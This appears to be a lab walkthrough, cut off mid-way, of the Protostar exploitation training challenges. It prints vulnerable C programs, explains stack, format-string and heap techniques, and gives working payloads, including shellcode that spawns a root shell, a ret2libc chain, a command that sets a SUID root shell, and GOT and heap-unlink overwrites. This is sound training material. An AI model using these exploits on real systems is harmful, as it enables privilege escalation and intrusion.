



| Install | Stack 0 | Format 0 | Heap 0 | Net 0 | Final 0 |
| Stack 1 | Format 1 | Heap 1 | Net 1 | Final 1 | |
| Stack 2 | Format 2 | Heap 2 | Net 2 | Final 2 | |
| Stack 3 | Format 3 | Heap 3 | |||
| Stack 4 | Format 4 | ||||
| Stack 5 | |||||
| Stack 6 | |||||
| Stack 7 |
ip addr command.ssh user@[ipaddr]. All the challenges are stored in /opt/protostar/bin/.
int main(int argc, char **argv){
volatile int modified;
char buffer[64];
modified = 0;
gets(buffer);
if(modified != 0) {
printf("you have changed the 'modified' variable\n");
} else {
printf("Try again?\n");
}
}
Buffer overflow: this bug happens when a program, while writing data to a buffer, overruns the buffer's boundary and overwrites adjacent memory locations. Buffer overflows can often be triggered by assuming all the inputs are smaller than a certain size and allocating just that size for the buffer: in case an input happens to be larger, it will be written past the end of the buffer.

int main(int argc, char **argv){
volatile int modified;
char buffer[64];
if(argc == 1) {
errx(1, "please specify an argument\n");
}
modified = 0;
strcpy(buffer, argv[1]);
if(modified == 0x61626364) {
printf("you have correctly got the variable to the right value\n");
} else {
printf("Try again, you got 0x%08x\n", modified);
}
}
ASCII: this is a character encoding standard: it encodes 128 specified characters into seven-bit integers as shown by the ASCII chart (you can see it in a terminal by tayping man ascii). Ninety-five of the encoded characters are printable: these include the digits 0 to 9, lowercase letters a to z, uppercase letters A to Z, and punctuation symbols.
./stack1 1111111111111111111111111111111111111111111111111111111111111111dcba
int main(int argc, char **argv){
volatile int modified;
char buffer[64];
char *variable;
variable = getenv("GREENIE");
if(variable == NULL) {
errx(1, "please set the GREENIE environment variable\n");
}
modified = 0;
strcpy(buffer, variable);
if(modified == 0x0d0a0d0a) {
printf("you have correctly modified the variable\n");
} else {
printf("Try again, you got 0x%08x\n", modified);
}
}
Environment Variable: it'ss a dynamic-named value that can affect the way a processes will behave on a computer. These variables are part of the environment in which a process runs, and they can be queried to find out paths to specific files or directories.
export VARNAME=asdfasfd. However, we can not reutilize the string we passed the last time because in this case the expected string is made of special characters. If we look in the ASCII table they correspond to the new line and carriage return, and we can not represent them in a single char in our string.
export GREENIE=`python -c "print 'A' * 64 + '\x0a\x0d\x0a\x0d'"`. However, if we run this line the terminal will complain about a bad variable name, and only store the part with 1s.
GREENIE=`python -c "print 'A' * 64 + '\x0a\x0d\x0a\x0d'"` ./stack2
void win(){
printf("code flow successfully changed\n");
}
int main(int argc, char **argv){
volatile int (*fp)();
char buffer[64];
fp = 0;
gets(buffer);
if(fp) {
printf("calling function pointer, jumping to 0x%08x\n", fp);
fp();
}
}
objdump: this command displays information about an object file. It has many parameters that change what is shown: among other possibilities you can see the content of the headers and sections, some disassembly, symbol tables, formats and architectures.
|: the vertical line is used to pump output from an instruction to the next instruction
objdump -t stack3 | grep win (we use grep to minimize the output and obtain directly what we are interested in). This shows that the function is at address 0x08048424
\x24\x84\x04\x08. As in the previous challenge, we have to use a workaround to get the special characters properly. We don't have to write any variable, so we can do directly python -c "print 'A' * 64 + '\x24\x84\x04\x08'" | ./stack3.
void win(){
printf("code flow successfully changed\n");
}
int main(int argc, char **argv){
char buffer[64];
gets(buffer);
}
EIP: it's a 32 bit register, also called the instruction pointer because Instruction it holds the next instruction address. Based on usual calling conventions, the call instruction pushes the current $eip onto the stack before jumping to the memory address of the called function by setting $eip to that address. The ret instruction at the end of the function will pop the old $eip value, located at that moment on the stack at $ebp + 4, and restore it to continue the execution.
info reg. This tells us that $eip is at address 0x8048411
x/w $eip, and see what is the content (which by the way corresponds to the address that caused the segmentation flow). We copy it back to the service, which tells us that the offset we are looking for is 76.
0x080483f4.
python -c "print 'A' * 76 + '\xF4\x83\x04\x08'" | ./stack4
int main(int argc, char **argv){
char buffer[64];
gets(buffer);
}
Shellcode: this is a small piece of self-contained code used as payload in the exploitation of a software vulnerability. It is called "shellcode" because it typically starts a command shell from which the attacker can control the compromised machine, but it can actually do anything. Shellcodes can be encoded in many different ways, the most simple translates high level instructions to the corresponding assembly and from there to the corresponding opcodes, which are just hex values.
0x8048411
/*
* close(0)
*
* 8049380: 31 c0 xor %eax,%eax
* 8049382: 31 db xor %ebx,%ebx
* 8049384: b0 06 mov $0x6,%al
* 8049386: cd 80 int $0x80
*
* open("/dev/tty", O_RDWR | ...)
*
* 8049388: 53 push %ebx
* 8049389: 68 2f 74 74 79 push $0x7974742f
* 804938e: 68 2f 64 65 76 push $0x7665642f
* 8049393: 89 e3 mov %esp,%ebx
* 8049395: 31 c9 xor %ecx,%ecx
* 8049397: 66 b9 12 27 mov $0x2712,%cx
* 804939b: b0 05 mov $0x5,%al
* 804939d: cd 80 int $0x80
*
* execve("/bin/sh", ["/bin/sh"], NULL)
*
* 804939f: 31 c0 xor %eax,%eax
* 80493a1: 50 push %eax
* 80493a2: 68 2f 2f 73 68 push $0x68732f2f
* 80493a7: 68 2f 62 69 6e push $0x6e69622f
* 80493ac: 89 e3 mov %esp,%ebx
* 80493ae: 50 push %eax
* 80493af: 53 push %ebx
* 80493b0: 89 e1 mov %esp,%ecx
* 80493b2: 99 cltd
* 80493b3: b0 0b mov $0xb,%al
* 80493b5: cd 80 int $0x80
*/
char sc[] =
"\x31\xc0\x31\xdb\xb0\x06\xcd\x80"
"\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80"
"\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80";
080483c4 main:
80483c4: 55 push %ebp
80483c5: 89 e5 mov %esp,%ebp
80483c7: 83 e4 f0 and $0xfffffff0,%esp
80483ca: 83 ec 50 sub $0x50,%esp
80483cd: 8d 44 24 10 lea 0x10(%esp),%eax
80483d1: 89 04 24 mov %eax,(%esp)
80483d4: e8 0f ff ff ff call 80482e8 gets@plt
80483d9: c9 leave
80483da: c3 ret
By disassembling stack5 with objdump -d we can see that the address of the buffer passed as argument to the gets method is loaded in $eax and is located at $esp+0x10. This means that the address we are looking for corresponds to $esp+0x10, and from gdb we can see that $esp is located at 0xbffffb70.
/usr/share/framework2/msfelfscan -f stack5 -j eax (that's from a standard Kali install). The result is that we can use the instruction call eax at 0x080483bf for our goal.
python -c "print '\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80' + '0' * 21 + '\xBF\x83\x04\x08'" | ./stack5
If we pipe all of that into stack5, we expect to receive a shell back, but instead we get a segmentation fault. The reason that happened is that in our shellcode we have a bunch of push instruction that when executed will put things on the stack basically overwriting its own instructions.
add $0x10, $esp, which translates to opcode \x83\xc4\x10. We prepend this to our code, obtaining
python -c "print '\x83\xc4\x10\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80' + '0' * 18 + '\xBF\x83\x04\x08'" | ./stack5
Running this code clearly returns a shell that is root (you can check it with the command whoami).
void getpath(){
char buffer[64];
unsigned int ret;
printf("input path please: "); fflush(stdout);
gets(buffer);
ret = __builtin_return_address(0);
if((ret & 0xbf000000) == 0xbf000000) {
printf("bzzzt (%p)\n", ret);
_exit(1);
}
printf("got path %s\n", buffer);
}
int main(int argc, char **argv){
getpath();
}
return-to-libc: this attack usually uses a buffer overflow to replace a return address so that it points to another routine already in memory (meaning taken from a library), so the attacker doesn't need to inject its own code. These target library is usualy libc, because it is almost always linked and contains functions like system that can be used to execute shell commands. Check out a great explanation in Performing a ret2libc Attack by InVoLuNTaRy
C calling convention: arguments of the function are pushed on the stack, in right-to-left order (meaning that last argument is pushed first). Integers and addresses are returned in the EAX register; registers EAX, ECX, and EDX are caller-saved, and the rest are callee-saved.
(ret & 0xbf000000) == 0xbf000000 makes sure that locations in the stack will not be accepted as return addresses. We know that the stack is in that address space thanks to gdb > info proc map

gdb > disas getpath we can look into the assembly code of the getpath method. We see right before the call to the gets instruction that the buffer is loaded from $ebp-0x4C. We can not look for a gadget to jump to $eax, because $eax is changed multiple times during the execution. However the same location is loaded into $edx right before returning, and so findin a jump to that register could be a solution. But using msfelfscan doesn't return any useful gadget.
gdb > print system and gdb > print exit. This tells us that system is located at address 0xb7ecffb0, and exit at 0xb7ec60c0.
export PWN=/bin/sh, or look if a variable pointing to the shell already exists. To get the address of the variable, we can start gdb, reach a breakpoint in stack6 and run gdb > x/10s *((char **)environ), changing the amount of shown variables until we find the one we are interessed in. In our case, we have an existing SHELL variable tht is located at 0xbffff8a9. To note is that we are only interested in the actual content of the variable, but in memory it is stored as a single string of the form VARNAME=xxxxxxxx. This means that to our address we have to add a little offset to leave out the name: SHELL= has 6 characters, so we add 6 to the address, obtaining 0xbffff8af
python -c "print 'A' * 80 + '\xb0\xff\xec\xb7' + '\xc0\x60\xec\xb7' + '\xaf\xf8\xff\xbf' + '\xff\xff\xff\xff'" | ./stack6
int main(int argc, char **argv, char **envp) {
gid_t gid;
uid_t uid;
gid = getegid();
uid = geteuid();
setresgid(gid, gid, gid);
setresuid(uid, uid, uid);
system("/bin/bash");
}
We then compile the file and create an environment variable that will change the owner and the permissions of the binary: export SUID="/bin/chown root:root /home/user/shell; /bin/chmod 4755 /home/user/shell".
With the approach explained in the previous steps we retrieve the pointer to the string command, and we pass that as argument to system. After running properly, our binary file should have root owner and SUID set, and running it will result in a root shell.
char *getpath(){
char buffer[64];
unsigned int ret;
printf("input path please: "); fflush(stdout);
gets(buffer);
ret = __builtin_return_address(0);
if((ret & 0xb0000000) == 0xb0000000) {
printf("bzzzt (%p)\n", ret);
_exit(1);
}
printf("got path %s\n", buffer);
return strdup(buffer);
}
int main(int argc, char **argv){
getpath();
}
ROP chains: taking control of the call stack in a program, it is possible to make calls to specific sequences of instructions (called gadgets) alredy present in the code, that usually end with a return so that the following instruction might also be a call to another gadget. Chaining gadgets together it is possible to perform arbitrary operations on a machine.
gdb > disas getpath we can see that our buffer is stored at $ebp-0x4c, and that this address is loaded into $eax just before the method returns. This means that the value in $eax will still be there when we will be looking at the return address, and therefore we could aim at returning exactly at that specific address.
./msfelfscan -f ~/stack7 -j eax, meaning that we are looking in stack7 for code that jumps to $eax, bing it a call, a return or whatever else would result in reaching that address. The script tells us that at address 0x080484bf there is a call to $eax that does exactly what we need
python -c "print '\x31\xc0\x31\xdb\xb0\x06\xcd\x80' + '\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80' + '\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80' + 'A' * 25 + '\xbf\x84\x04\x08'" | ./stack7
Upon executing this, we will be rewarded with a root shell.
void vuln(char *string){
volatile int target;
char buffer[64];
target = 0;
sprintf(buffer, string);
if(target == 0xdeadbeef) {
printf("you have hit the target correctly :)\n");
}
}
int main(int argc, char **argv){
vuln(argv[1]);
}
./format0 `python -c "print 'A' * 64 + '\xef\xbe\xad\xde'"`
int target;
void vuln(char *string){
printf(string);
if(target) {
printf("you have modified the target :)\n");
}
}
int main(int argc, char **argv){
vuln(argv[1]);
}
Format Strings: this string contains both text and format parameters, that are pushed on the stack and popped by the calling function. This function retrieves first the format string itself, and while parsing it pops the other values from the stack and treats them as defined by the format. Following formats are the most popular:Interesting formats are %x and %n: with the first one it is possible to force the popping of values from the stack, because the string parsing does not know that what is being popped is not a legitimate parameter; combining this with the second one it is possible to force writing on a specific address, just by popping until that address is on the top of the stack and then invoking %n so that it will write its result there.
Parameter Output Passed as %d int value %u uint value %x hex (uint) value %s *char reference %n number of bytes written so far (*int) reference
objdump -t format1 | grep target, which will tell us that the variable is stored at address 0x08049638
./format1 `python -c "print 'AAAA' + '%x' * 150"`
The result is an ugly bunch of numbers, corresponding to the content of the stack. If we look at it with a bit of attention, we can identify the 41414141, towards the end. We repeat the spamming decreasing the number of '%x' that we print, until the recognizable pattern is at the last 4 bytes that we pop. In this case, 142 is the perfect number.
./format1 `python -c "print '\x38\x96\x04\x08' + '%x' * 142"`
./format1 `python -c "print '\x38\x96\x04\x08' + '%x' * 141 + '%n'"`
int target;
void vuln(){
char buffer[512];
fgets(buffer, sizeof(buffer), stdin);
printf(buffer);
if(target == 64) {
printf("you have modified the target :)\n");
} else {
printf("target is %d :(\n", target);
}
}
int main(int argc, char **argv){
vuln();
}
Counting format strings: by providing a number between the percentage and the letter, the resulting format string will write that amount of elements. This means that it is possible to control what is written by %n: for example by using %Xu%n the result will be %n writing exactly value X because that's the amount of bytes that have been outputted.
objdump -t format2 | grep target to find out that target is at address 0x080496e4
python -c "print 'AAAA' + '%x'*20" > /tmp/format2.in
./format2 < /tmp/format2.in
This time, turns out that we are looking really close, as the right amount of pops is 4.
python -c "print '\xe4\x96\x04\x08' + '%x%x%x' + '%n'" > /tmp/format2.in
./format2 < /tmp/format2.in
This time we should see that a new value has been written to our target: the target has the value 23
python -c "print '\xe4\x96\x04\x08' + '%44x%x%x' + '%n'" > /tmp/format2.in
./format2 < /tmp/format2.in
As soon as we get the correct amount of bytes printed out, target will be modified to contain the value 64 and allowing us to finish the challenge.
int target;
void printbuffer(char *string){
printf(string);
}
void vuln()
{
char buffer[512];
fgets(buffer, sizeof(buffer), stdin);
printbuffer(buffer);
if(target == 0x01025544) {
printf("you have modified the target :)\n");
} else {
printf("target is %08x :(\n", target);
}
}
int main(int argc, char **argv){
vuln();
}
objdump -t format3 | grep target to find out that target is at address 0x080496f4
python -c "print 'AAAA' + '%x'*20" > /tmp/format3.in
./format3 < /tmp/format3.in
Correct pop amount is 12.
python -c "print '\xf4\x96\x04\x08' + '%x%x%x%x%x%x%x%x%x%x%x' + '%n'" > /tmp/format3.in
./format3 < /tmp/format3.in
This results in writing target lowest byte pair with 41. Therefore we need to add a couple of bytes in what we print with the '%x' to increase that value:
python -c "print '\xf4\x96\x04\x08' + '%4x%x%x%x%x%x%x%x%x%x%x' + '%n'" > /tmp/format3.in
./format3 < /tmp/format3.in
python -c "print '\xf4\x96\x04\x08' + '%4x%x%x%x%x%x%x%x%x%x%x' + '%n' + 'AABBBBAA%x%x%x%x%x%x%x%x'" > /tmp/format3.in
./format3 < /tmp/format3.in
In this case we inserted also 'BBBB' in our spamming pattern, because on a first run just with 'AAAA' it looked like the bytes were not aligned properly to result in a clean address after the popping. After playing around, the right amount of pops is 8.
python -c "print '\xf4\x96\x04\x08' + '%04x%x%x%x%x%x%x%x%x%x%x' + '%n' + 'AA\xf5\x96\x04\x08AA%473x%x%x%x%x%x%x' + '%n'" > /tmp/format3.in
./format3 < /tmp/format3.in
To get the right value in target we have to put a rather high value in the bytes printed by '%x'. This does not matter, even if it overflows, because we will be anyway overwriting the higher byte in the next step
python -c "print '\xf4\x96\x04\x08' + '%04x%x%x%x%x%x%x%x%x%x%x' + '%n' + 'AA\xf5\x96\x04\x08AA%473x%x%x%x%x%x%x' + '%n' + 'BBB\xf7\x96\x04\x08%125x%x%x%x%x%x' + '%n'" > /tmp/format3.in
./format3 < /tmp/format3.in
int target;
void hello(){
printf("code execution redirected! you win\n");
_exit(1);
}
void vuln(){
char buffer[512];
fgets(buffer, sizeof(buffer), stdin);
printf(buffer);
exit(1);
}
int main(int argc, char **argv){
vuln();
}
Global Offset Table: also called GOT, it is a table of addresses stored in the data section. During runtime it lists addresses of global variables: when the program runs for the first time, the GOT is initialized to 0x00000000 for every external function; the first time it runs that function, it will cache the actual memory address in the GOT, so that it doesn’t have to ask libc, or the corresponding library each time. To see the (uninitialized) GOT we can use objdump -R
Buffer size: to overwrite an address, we need to know exactly how far we have to write in our buffer. To do this, we can take the target address (let's say 0x080484b4) and split it in byte pairs (b4, 84, 08, 08 little endian).
We get the first offset by starting gdb, executing the program and looking at the content of the address of the function that we want to overwrite (this address is the one showed in the GOT). Let's say the value is 0x00000010: take the first byte pair and subtract this value to get the buffer length, meaning 0xb4 - 0x10 = 164. For the second one, take the 2nd byte pair (84) and subtract the first byte pair (b4). To correct the negative result we add a “1” in the most significant digit of the first number, meaning “184”. We then subtract again, and get 208.
Doing this for all pairs results in the offsets that are needed to make the overwriting work at the correct places.
Direct Parameter Access: It allows us to reference subsequent printf arguments, without using the prior arguments: printf(“%4$d”, 1, 2, 3, 4, 5) will print 4.
objdump -R format4 | grep exit
objdump -t format4 | grep hello
This tells us that our target address is 0x08049724 and our new address is 0x080484b4
x/i 0x08049724
Although it might be worth looking, executing format4 at least once before inspecting the GOT table should solve the problem. If you reach the end and there stuff is not working, maybe take a look at this step and check that you are working with the proper address.
gdb > x/x 0x08049724
python -c "print '\x24\x97\x04\x08' + '%160x%x%x' + '%n' + 'A\x25\x97\x04\x08BBB' + '%184x%x%x' + '%n' + 'AA\x26\x97\x04\x08AA' + '%352x%x%x%x' + '%n' + 'A\x27\x97\x04\x08CDD' + '%228x%x%x%x' + '%n'" > /tmp/format4.in
./format4 < /tmp/format4.in
struct data {
char name[64];
};
struct fp {
int (*fp)();
};
void winner(){
printf("level passed\n");
}
void nowinner(){
printf("level has not been passed\n");
}
int main(int argc, char **argv){
struct data *d;
struct fp *f;
d = malloc(sizeof(struct data));
f = malloc(sizeof(struct fp));
f->fp = nowinner;
printf("data is at %p, fp is at %p\n", d, f);
strcpy(d->name, argv[1]);
f->fp();
}
void* malloc( size_t size ): allocates size bytes of uninitialized storage in the heap. If allocation succeeds, returns a pointer to the first byte in the allocated memory block that is suitably aligned for any object type.
objdump -t heap0 | grep winner and corresponds to 0x08048464
gdb --args heap0 Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
We can see what the content of $eip is when the program goes into segmentation fault, and passing this value back to the website tells us that we have an offset of 72 bytes.
./heap0 `python -c "print 'A' * 72 + '\x64\x84\x04\x08'"`
struct internet {
int priority;
char *name;
};
void winner(){
printf("and we have a winner @ %d\n", time(NULL));
}
int main(int argc, char **argv){
struct internet *i1, *i2, *i3;
i1 = malloc(sizeof(struct internet));
i1->priority = 1;
i1->name = malloc(8);
i2 = malloc(sizeof(struct internet));
i2->priority = 2;
i2->name = malloc(8);
strcpy(i1->name, argv[1]);
strcpy(i2->name, argv[2]);
printf("and that's a wrap folks!\n");
}
[i1 struct][i1->name][i2 struct][i2->name]
0x08048494.
gdb > disas main
gdb > b **0x08048567
gdb > run asdf asdf
gdb > i r $esp
This tells us that $esp contains the return addres 0xbffff68c
./heap1 `python -c "print 'A' * 20 + '\x60\xf6\xff\xbf' + ' ' + '\x94\x84\x04\x08' * 8"`
The first argument is made by the 20 random bytes and a address lower than our known gdb-related return address, than we need a space to respect the syntax of the heap1 program, and then we have a sled of our target address. At some point the target address will be hit and we will reach the winner method.
struct auth {
char name[32];
int auth;
};
struct auth *auth;
char *service;
int main(int argc, char **argv){
char line[128];
while(1) {
printf("[ auth = %p, service = %p ]\n", auth, service);
if(fgets(line, sizeof(line), stdin) == NULL) break;
if(strncmp(line, "auth ", 5) == 0) {
auth = malloc(sizeof(auth));
memset(auth, 0, sizeof(auth));
if(strlen(line + 5) < 31) {
strcpy(auth->name, line + 5);
}
}
if(strncmp(line, "reset", 5) == 0) {
free(auth);
}
if(strncmp(line, "service", 6) == 0) {
service = strdup(line + 7);
}
if(strncmp(line, "login", 5) == 0) {
if(auth->auth) {
printf("you have logged in already!\n");
} else {
printf("please enter your password\n");
}
}
}
}
Use after free: this vulnerability is a type of memory corruption that corresponds to trying to access memory after it has been freed. This can cause a program to crash or to execute arbitrary code in case the freed memory has already been filled with new data.
int strncmp(const char *str1, const char *str2, size_t n): compares at most the first n bytes of str1 and str2, returning 0 if they are equal.
char *strdup(const char *str1): returns a pointer to a null-terminated byte string, which is a duplicate of the string pointed to by str1. The pointer is to a newly allocated chunk of memory in the heap
./heap2
[ auth = (nil), service = (nil) ]
auth AAAAAAAA
[ auth = 0x804c008, service = (nil) ]
reset
[ auth = 0x804c008, service = (nil) ]
service 11111111111111111111111111111
[ auth = 0x804c008, service = 0x804c018 ]
login
you have logged in already!
[ auth = 0x804c008, service = 0x804c018 ]
void winner(){
printf("that wasn't too bad now, was it? @ %d\n", time(NULL));
}
int main(int argc, char **argv){
char *a, *b, *c;
a = malloc(32);
b = malloc(32);
c = malloc(32);
strcpy(a, argv[1]);
strcpy(b, argv[2]);
strcpy(c, argv[3]);
free(c);
free(b);
free(a);
printf("dynamite failed?\n");
}
Malloc chunk: Let's look at the structure of a free chunk of heap memory, as interpreted in malloc instructions:struct malloc_chunk { INTERNAL_SIZE_T prev_size; INTERNAL_SIZE_T size; struct malloc_chunk* fd; struct malloc_chunk* bk; }
- The prev_size member contains the size of the chunk previous to the current chunk. It is only used if the previous chunk is free.
- The size member contains the size of the current chunk, allocated in multiples of 8 bytes. This means that the 3 lowest bits of the size member will always be 0, and are therefore used as flag values:
> A (0x04): Allocated Arena - if this bit is 0, the chunk comes from the main arena and the main heap. If this bit is 1, the chunk comes from mmap'd memory and the location of the heap can be computed from the chunk's address.
> M (0x02): MMap'd chunk - this chunk was allocated with a single call to mmap and is not part of a heap at all.
> P (0x01): Previous chunk is in use - if set, the previous chunk is still being used by the application, and thus the prev_size field is invalid. This bit really means that the previous chunk should not be considered a candidate for coalescing.- The fd and bk members are pointers to the next and previous chunks respectively and are only set when the chunk itself is freed and consequently added to a doubly linked free list that is used to track which chunks are currently free.
ulink() technique: upon calling free, the previous and following chunks are tested to see if they are in use (looking at the prev_size member). Adjacent free chunks will be consolidated together as a single chunk.Actual ulink operations are:
This means that controlling the values of P->bk and P->fk allows to write arbitrary data to an arbitrary location in memory.
- writing the value of P->bk to the memory address pointed to by (P->fd) + 12, which corresponds to the bk member of P->fd.
- writing the value of P->fd to the memory address pointed to by (P->bk) + 8, which corresponds to the fd member of P->bk.
info proc map and gdb will tell us where the heap starts. That's where we want to look.
(gdb) x/50x 0x804c000
0x804c000: 0x00000000 0x00000029 0x41414141 0x00000000
0x804c010: 0x00000000 0x00000000 0x00000000 0x00000000
0x804c020: 0x00000000 0x00000000 0x00000000 0x00000029
0x804c030: 0x42424242 0x00000000 0x00000000 0x00000000
0x804c040: 0x00000000 0x00000000 0x00000000 0x00000000
0x804c050: 0x00000000 0x00000029 0x43434343 0x00000000
0x804c060: 0x00000000 0x00000000 0x00000000 0x00000000
0x804c070: 0x00000000 0x00000000 0x00000000 0x00000f89
0x804c080: 0x00000000 0x00000000 0x00000000 0x00000000
0x804c090: 0x00000000 0x00000000 0x00000000 0x00000000
0x804c0a0: 0x00000000 0x00000000 0x00000000 0x00000000
0x804c0b0: 0x00000000 0x00000000 0x00000000 0x00000000
0x804c0c0: 0x00000000 0x00000000
For each variable, we see that the size member is 0x00000029. This correponds to 00101001 in binary, meaning that the size is 40 bytes and that the previous chunk is in use.
(gdb) x/50x 0x804c000
0x804c000: 0x00000000 0x00000029 0x0804c028 0x00000000
0x804c010: 0x00000000 0x00000000 0x00000000 0x00000000
0x804c020: 0x00000000 0x00000000 0x00000000 0x00000029
0x804c030: 0x0804c050 0x00000000 0x00000000 0x00000000
0x804c040: 0x00000000 0x00000000 0x00000000 0x00000000
0x804c050: 0x00000000 0x00000029 0x00000000 0x00000000
0x804c060: 0x00000000 0x00000000 0x00000000 0x00000000
0x804c070: 0x00000000 0x00000000 0x00000000 0x00000f89
0x804c080: 0x00000000 0x00000000 0x00000000 0x00000000
0x804c090: 0x00000000 0x00000000 0x00000000 0x00000000
0x804c0a0: 0x00000000 0x00000000 0x00000000 0x00000000
0x804c0b0: 0x00000000 0x00000000 0x00000000 0x00000000
0x804c0c0: 0x00000000 0x00000000
We know that the memory is free, so we would expect all prev_size, size, fd and bk to be set properly. However, only fd actually is (also size is set, but does not signal the previous chunk as free): the reason is that these chunks are so small (less than 64 bytes) that they are not merged together upon freeing, but kept separated for the sake of speed. We can change this behaviour by controlling the size field and making it large enough to move the chunks from the so-called fastbin to the normal bin.
./heap3 `python -c "print 'AAAA ' + 'A' * 32 + '\xfc\xff\xff\xff' + '\xfc\xff\xff\xff' + 'AAAABBBBCCCC' + ' DDD'"`
Running this results in a segmentation fault as the system tries to move stuff around in adresses that do not actually exist.
0x08048864. This is the address that we want to put instead of the puts entry in the GOT table, which is located at 0x0804b128 (obtained with objdump -R). The actual address that we want to overwrite is 0x0804b11c, because due to the fd-bk arithmetic we have to subtract 12 bytes from the memory address that we want to write to.
push 0x08048864
ret
The encoded instructions correspond to \x68\x64\x88\x04\x08\xc3, which also nicely fits into the 8 bytes that are available.
./heap3 `python -c "print 'AAAA\x68\x64\x88\x04\x08\xc3' + ' ' + 'A' * 32 + '\xfc\xff\xff\xff' + '\xfc\xff\xff\xff' + 'AAAA' + '\x1c\xb1\x04\x08\x0c\xc0\x04\x08' + ' ' + 'DDD'"`
I have to admit that although the techniques used are mostly clear to me, I am still a bit confused about how all of it comes together. This code works, but breaking down the single parts and pointing where they will end up in memory is quite tricky.
#define NAME "net0"
#define UID 999
#define GID 999
#define PORT 2999
void run(){
unsigned int i;
unsigned int wanted;
wanted = random();
printf("Please send '%d' as a little endian 32bit int\n", wanted);
if(fread(&i, sizeof(i), 1, stdin) == NULL) {
errx(1, ":(\n");
}
if(i == wanted) {
printf("Thank you sir/madam\n");
} else {
printf("I'm sorry, you sent %d instead\n", i);
}
}
int main(int argc, char **argv, char **envp){
int fd;
char *username;
/* Run the process as a daemon */
background_process(NAME, UID, GID);
/* Wait for socket activity and return */
fd = serve_forever(PORT);
/* Set the client socket to STDIN, STDOUT, and STDERR */
set_io(fd);
/* Don't do this :> */
srandom(time(NULL));
run();
}
nc 127.0.0.1 2999.
import socket
import re
import struct
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("127.0.0.1", 2999))
data = s.recv(1024)
num = data.split()[2][1:-1]
num = int(num)
s.send(struct.pack("i", num))
print s.recv(1024)
s.close()
#define NAME "net1"
#define UID 998
#define GID 998
#define PORT 2998
void run(){
char buf[12];
char fub[12];
char *q;
unsigned int wanted;
wanted = random();
sprintf(fub, "%d", wanted);
if(write(0, &wanted, sizeof(wanted)) != sizeof(wanted)) {
errx(1, ":(\n");
}
if(fgets(buf, sizeof(buf)-1, stdin) == NULL) {
errx(1, ":(\n");
}
q = strchr(buf, '\r'); if(q) *q = 0;
q = strchr(buf, '\n'); if(q) *q = 0;
if(strcmp(fub, buf) == 0) {
printf("you correctly sent the data\n");
} else {
printf("you didn't send the data properly\n");
}
}
int main(int argc, char **argv, char **envp){
int fd;
char *username;
/* Run the process as a daemon */
background_process(NAME, UID, GID);
/* Wait for socket activity and return */
fd = serve_forever(PORT);
/* Set the client socket to STDIN, STDOUT, and STDERR */
set_io(fd);
/* Don't do this :> */
